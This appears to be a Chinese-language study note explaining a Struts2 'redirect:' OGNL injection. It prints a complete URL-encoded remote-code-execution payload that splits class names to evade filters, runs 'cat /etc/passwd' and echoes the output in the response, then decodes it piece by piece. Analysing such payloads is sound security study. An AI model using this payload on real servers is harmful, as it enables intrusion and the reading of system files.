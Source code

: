 ![image-20230608152737120](http://cdn.ayusummer233.top/DailyNotes/202309141817044.png)

在 Struts2 中，`redirect:` 是一个特殊的跳转标记，用于指示请求的处理结果需要进行重定向。`${}` 是一种用于表达式求值的语法。它可以用于获取、设置和操作请求中的属性值, 通过在 `${...}` 中嵌入恶意代码，攻击者可以执行任意的 Java 代码

在这个 payload 中，通过将 `redirect:` 设置为 `redirect:${...}`，实际上是在请求中使用了一个自定义的跳转路径，并在跳转路径中嵌入了恶意代码。

```java
%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),

%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),

%23str%3d%23s.hasNext()?%23s.next():%27%27,

%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),

%23resp.setCharacterEncoding(%27UTF-8%27),

%23resp.getWriter().println(%23str),

%23resp.getWriter().flush(),%23resp.getWriter().close()
```

1. `%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27)` 部分将从 `context` 对象中获取 `com.opensymphony.xwork2.dispatcher.HttpServletRequest` 对象，并将其赋值给 `req` 变量。

   ```java
   %23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27)
       
   ###
   #req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest')
   ```

2. `%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream())` 部分创建了一个 `Scanner` 对象 `s`，并将其初始化为执行命令 `cat /etc/passwd` 的结果。

   ```java
   %23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27)
       
   ####
   #s=new java.util.Scanner((new java.lang.ProcessBuilder('cat /etc/passwd'.toString().split('\\s'))).start().getInputStream()).useDelimiter('\\AAAA'),
   ```

   `.useDelimiter(%27\\AAAA%27)` 是针对 `java.util.Scanner` 对象设置分隔符为 `\AAAA`, 这个字符串并不是特定的含义，可以是任意值。

   设置分隔符为 `%27\\AAAA%27` 的作用是告诉 `Scanner` 对象在扫描输入文本时，以 `%27\AAAA%27` 作为分隔符，将输入文本切割成多个部分。这样，攻击者可以利用特定的分隔符来构造输入，使得 `Scanner` 在扫描过程中将输入解析成恶意的代码片段。
